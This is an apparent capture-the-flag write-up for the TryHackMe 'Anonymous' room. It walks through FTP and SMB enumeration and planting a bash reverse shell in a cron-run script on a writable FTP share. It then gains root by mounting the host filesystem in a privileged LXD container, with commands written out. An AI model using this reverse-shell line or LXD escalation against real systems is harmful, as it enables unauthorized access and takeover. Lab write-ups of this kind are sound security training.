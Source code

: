 # Anonymous Walkthrough - TryHackMe  

---

### Introduction 

Essentially, the owner of the box left an **FTP directory writable to guests**. Inside, there is a bash script called `clean.sh` that cleans the `/tmp` directory. This script is run by a **cron job**, which means we can **modify files in the FTP share** to include a malicious line of code and gain a shell on the box — part 1 done.  

For privilege escalation, the user we log in as is a member of the **sudo group**. This allows us to leverage **LXD** to get root on the box.  

Let’s jump in!  

---

### Step 1: Nmap Scan

We start with a basic scan:

```
nmap -sC -sV <target-ip>
```

Initially, only two ports were open.

No web server was found, so a full TCP scan was run to check for missed ports.

Two more ports were discovered: standard SMB ports.

###Step 2: Service Analysis

We discovered anonymous FTP login is allowed.

###Step 3: FTP Enumeration

Connect to FTP using:
`
ftp <target-ip>
`
Explore the files on the FTP share:

    To_do.txt – Reminder to disable anonymous login

    clean.sh – Bash script deleting /tmp files

    removed_files.log – Logs of deleted files

Since the script is run by cron, modifying clean.sh allows us to inject a reverse shell.
###Step 4: SMB Enumeration

SMB share named pics allowed NULL authentication.

###Step 5: Gaining a Shell

Edit clean.sh and add a bash reverse shell with your IP:
`
bash -i >& /dev/tcp/<your-ip>/4444 0>&1
`
Upload the modified script using FTP put:
`
ftp> put clean.sh
`
Start a listener on your machine:
`
nc -lvnp 4444
`
Wait for the cron job to execute clean.sh. A few seconds later, a shell is obtained.

###Step 6: Capture User Flag

Navigate to the user's home directory:
`
cd /home/namelessone
cat user.txt
`
###Step 7: Privilege Escalation

Found potential privilege escalation via LXD.

###Step 8: Exploiting LXD

LXD is Ubuntu's container manager using Linux containers. Users in the lxd group can be exploited to gain root.

    Download LXD Alpine builder from GitHub.

    Build a small Alpine Linux image.

    Upload the image to the target machine.

    Import the image into LXC:
`
lxc image import alpine.tar.gz --alias myalpine
`
Create and start a container:
`
lxc init myalpine privesc -c security.privileged=true
lxc config device add privesc mydisk disk source=/ path=/mnt
lxc start privesc
lxc exec privesc -- /bin/bash
`
We now have root access on the box.

###Step 9: Capture Root Flag
`
cat /root/root.txt
`
Submit the flag and claim your points!
Conclusion

Exploited writable FTP + cron to get a shell.

Escalated privileges using LXD containers.

Learned about the dangers of sudo group membership and LXD.

References

Privilege Escalation via LXD

Linux Privilege Escalation via LXD & Hijacked UNIX Socket

TryHackMe Room: Anonymous
